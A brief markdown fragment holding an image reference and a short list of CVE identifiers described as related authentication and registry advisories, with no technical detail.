

- CVE-2023-25570 (related adapter/registry authentication issue)
- CVE-2026-50196, CVE-2026-81515 (related advisories referenced by the ecosystem)
